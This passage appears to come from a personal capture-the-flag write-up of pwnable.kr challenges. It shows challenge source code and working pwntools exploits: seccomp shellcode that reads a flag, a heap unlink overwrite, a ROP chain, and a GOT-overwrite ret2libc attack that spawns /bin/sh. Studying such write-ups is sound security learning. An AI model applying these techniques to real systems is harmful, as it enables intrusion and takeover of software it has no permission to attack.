        seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit_group), 0);

        if (seccomp_load(ctx) < 0){
                seccomp_release(ctx);
                printf("seccomp error\n");
                exit(0);
        }
        seccomp_release(ctx);
}

char stub[] = "\x48\x31\xc0\x48\x31\xdb\x48\x31\xc9\x48\x31\xd2\x48\x31\xf6\x48\x31\xff\x48\x31\xed\x4d\x31\xc0\x4d\x31\xc9\x4d\x31\xd2\x4d\x31\xdb\x4d\x31\xe4\x4d\x31\xed\x4d\x31\xf6\x4d\x31\xff";
unsigned char filter[256];
int main(int argc, char* argv[]){

        setvbuf(stdout, 0, _IONBF, 0);
        setvbuf(stdin, 0, _IOLBF, 0);

        printf("Welcome to shellcoding practice challenge.\n");
        printf("In this challenge, you can run your x64 shellcode under SECCOMP sandbox.\n");
        printf("Try to make shellcode that spits flag using open()/read()/write() systemcalls only.\n");
        printf("If this does not challenge you. you should play 'asg' challenge :)\n");

        char* sh = (char*)mmap(0x41414000, 0x1000, 7, MAP_ANONYMOUS | MAP_FIXED | MAP_PRIVATE, 0, 0);
        memset(sh, 0x90, 0x1000);
        memcpy(sh, stub, strlen(stub));

        int offset = sizeof(stub);
        printf("give me your x64 shellcode: ");
        read(0, sh+offset, 1000);

        alarm(10);
        chroot("/home/asm_pwn");        // you are in chroot jail. so you can't use symlink in /tmp
        sandbox();
        ((void (*)(void))sh)();
        return 0;
}
```

The given assembly `stub` that will run first is just zeroing out all the registers.

We generate shellcode with pwntools.

It's easy and cool.

EXP: 

```python
#!/usr/bin/pyhton3
# coding = utf-8

from pwn import *

context.arch = "amd64"
context.os = "linux"

def makePayload():
    shellcode = shellcraft.open("this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong")
    shellcode += shellcraft.read("rax", "rsp", 0x100)
    shellcode += shellcraft.write(1, "rsp", 0x100)
    shellcode = asm(shellcode)
    return shellcode

def main():
    payload = makePayload()
    payload = payload.ljust(1000, b"k")
    print(payload)
    r = remote("pwnable.kr", 9026)
    r.recvuntil(b"give me your x64 shellcode: ")
    r.sendline(payload)
    print(r.recv())

if __name__ == "__main__":
    main()
```

### unlink


Source code: 

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
typedef struct tagOBJ{
        struct tagOBJ* fd;
        struct tagOBJ* bk;
        char buf[8];
}OBJ;

void shell(){
        system("/bin/sh");
}

void unlink(OBJ* P){
        OBJ* BK;
        OBJ* FD;
        BK=P->bk;
        FD=P->fd;
        FD->bk=BK;
        BK->fd=FD;
}
int main(int argc, char* argv[]){
        malloc(1024);
        OBJ* A = (OBJ*)malloc(sizeof(OBJ));
        OBJ* B = (OBJ*)malloc(sizeof(OBJ));
        OBJ* C = (OBJ*)malloc(sizeof(OBJ));

        // double linked list: A <-> B <-> C
        A->fd = B;
        B->bk = A;
        B->fd = C;
        C->bk = B;

        printf("here is stack address leak: %p\n", &A);
        printf("here is heap address leak: %p\n", A);
        printf("now that you have leaks, get shell!\n");
        // heap overflow!
        gets(A->buf);

        // exploit this unlink!
        unlink(B);
        return 0;
}
```

This game took me a lot of time.

It's last game I solved in [Toddler's Bottle] level.

I feel it's easy now.

// DETAILS

EXP: 

```python
#!/usr/bin/python3
# coding=utf-8

from pwn import *

# context.log_level = "debug"

shell_addr = 0x080484EB

pwn_ssh = ssh(host="pwnable.kr", port=2222, user="unlink", password="guest")
p = pwn_ssh.process(executable="./unlink", argv=["./unlink"])

stack_addr = int(p.recvline().strip().split(b"0x")[1], 16)
heap_addr = int(p.recvline().strip().split(b"0x")[1], 16)

payload = p32(shell_addr) + b"k"*(0x4*3) + p32(heap_addr+(0x4*3)) + p32(stack_addr+0x10)

p.sendline(payload)
p.interactive()
```

### blukat


It's easy.

Source code: 

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <fcntl.h>
char flag[100];
char password[100];
char* key = "3\rG[S/%\x1c\x1d#0?\rIS\x0f\x1c\x1d\x18;,4\x1b\x00\x1bp;5\x0b\x1b\x08\x45+";
void calc_flag(char* s){
        int i;
        for(i=0; i<strlen(s); i++){
                flag[i] = s[i] ^ key[i];
        }
        printf("%s\n", flag);
}
int main(){
        FILE* fp = fopen("/home/blukat/password", "r");
        fgets(password, 100, fp);
        char buf[100];
        printf("guess the password!\n");
        fgets(buf, 128, stdin);
        if(!strcmp(password, buf)){
                printf("congrats! here is your flag: ");
                calc_flag(password);
        }
        else{
                printf("wrong guess!\n");
                exit(0);
        }
        return 0;
}
```

Debug it by gdb.

```shell
set disassembly-flavor intel
```

Set intel flavor.

```assembly
(gdb) disas main
Dump of assembler code for function main:
   0x00000000004007fa <+0>:     push   rbp
   0x00000000004007fb <+1>:     mov    rbp,rsp
   0x00000000004007fe <+4>:     add    rsp,0xffffffffffffff80
   0x0000000000400802 <+8>:     mov    rax,QWORD PTR fs:0x28
   0x000000000040080b <+17>:    mov    QWORD PTR [rbp-0x8],rax
   0x000000000040080f <+21>:    xor    eax,eax
   0x0000000000400811 <+23>:    mov    esi,0x40096a
   0x0000000000400816 <+28>:    mov    edi,0x40096c
   0x000000000040081b <+33>:    call   0x400660 <fopen@plt>
   0x0000000000400820 <+38>:    mov    QWORD PTR [rbp-0x78],rax
   0x0000000000400824 <+42>:    mov    rax,QWORD PTR [rbp-0x78]
   0x0000000000400828 <+46>:    mov    rdx,rax
   0x000000000040082b <+49>:    mov    esi,0x64
   0x0000000000400830 <+54>:    mov    edi,0x6010a0
   0x0000000000400835 <+59>:    call   0x400640 <fgets@plt>
   0x000000000040083a <+64>:    mov    edi,0x400982
   0x000000000040083f <+69>:    call   0x4005f0 <puts@plt>
   0x0000000000400844 <+74>:    mov    rdx,QWORD PTR [rip+0x200835]        # 0x601080 <stdin@@GLIBC_2.2.5>
   0x000000000040084b <+81>:    lea    rax,[rbp-0x70]
   0x000000000040084f <+85>:    mov    esi,0x80
   0x0000000000400854 <+90>:    mov    rdi,rax
   0x0000000000400857 <+93>:    call   0x400640 <fgets@plt>
   0x000000000040085c <+98>:    lea    rax,[rbp-0x70]
   0x0000000000400860 <+102>:   mov    rsi,rax
   0x0000000000400863 <+105>:   mov    edi,0x6010a0
   0x0000000000400868 <+110>:   call   0x400650 <strcmp@plt>
   0x000000000040086d <+115>:   test   eax,eax
   0x000000000040086f <+117>:   jne    0x4008a0 <main+166>
   0x0000000000400871 <+119>:   mov    edi,0x400996
   0x0000000000400876 <+124>:   mov    eax,0x0
   0x000000000040087b <+129>:   call   0x400620 <printf@plt>
   0x0000000000400880 <+134>:   mov    edi,0x6010a0
   0x0000000000400885 <+139>:   call   0x400786 <calc_flag>
   0x000000000040088a <+144>:   mov    eax,0x0
   0x000000000040088f <+149>:   mov    rcx,QWORD PTR [rbp-0x8]
   0x0000000000400893 <+153>:   xor    rcx,QWORD PTR fs:0x28
   0x000000000040089c <+162>:   je     0x4008b9 <main+191>
   0x000000000040089e <+164>:   jmp    0x4008b4 <main+186>
---Type <return> to continue, or q <return> to quit---
```

Set breakpoint on **0x0000000000400835**

**0x400982** is variable password.

just **ni** and x/100x **0x400982**

We got password.


Input then win.

### horcruxes


About ROP...

EXP: 

```python
from pwn import *

context(os="linux", arch="i386", log_level = "debug")

sum = 0

r = remote("pwnable.kr",9032)

A = 0x0809FE4B
B = 0x0809FE6A
C = 0x0809FE89
D = 0x0809FEA8
E = 0x0809FEC7
F = 0x0809FEE6
G = 0x0809FF05
call_ropme = 0x0809FFFC

payload = b"k" * (0x74 + 0x4) + p32(A) + p32(B) + p32(C) + p32(D) + p32(E) + p32(F) + p32(G) + p32(call_ropme)

r.sendlineafter(b"Select Menu:", str(1))
r.sendlineafter(b"How many EXP did you earned? : ", payload)
r.recvline()
for i in range(7):
    buf = r.recvline()
    num = int(buf[buf.find(b"+") + 1:buf.find(b")")])
    sum += num

# if sum over range of signed int, we will failed.
# I don't know a good way to solve.
r.sendlineafter(b"Select Menu:", str(1))
r.sendlineafter(b"How many EXP did you earned? : ", str(sum))
print(r.recvall())
```

## Rookiss

I AM A ROOKISS!

### brain fuck


EXP: 

```python
#!/usr/bin/python3
# coding=utf-8

from pwn import *
# context.log_level = "debug"

r = remote("pwnable.kr", 9001)
libc = ELF("./bf_libc.so")

r.recvuntil(b"type some brainfuck instructions except [ ]\n")
# leak addr of putchar
# putchar -> main
payload  = b"<"*(0x0804A0A0-0x0804A030)
payload += b"."
payload += b".>"*0x4
payload += b"<"*0x4
payload += b",>"*0x4

# memset -> gets
payload += b"<"*(0x0804A030-0x0804A02C+4)
payload += b",>"*0x4

# fgets -> system
payload += b"<"*(0x0804A02C-0x0804A010+4)
payload += b",>"*0x4

# ret main
payload += b"."

r.sendline(payload)

r.recv(1)
putchar_addr = u32(r.recv(4))
libc_base = putchar_addr - libc.symbols["putchar"]
system_addr = libc_base + libc.symbols["system"]
gets_addr = libc_base + libc.symbols["gets"]
main_addr = 0x08048671

r.send(p32(main_addr))
r.send(p32(gets_addr))
r.send(p32(system_addr))
r.sendline(b"/bin/sh")

r.interactive()
```

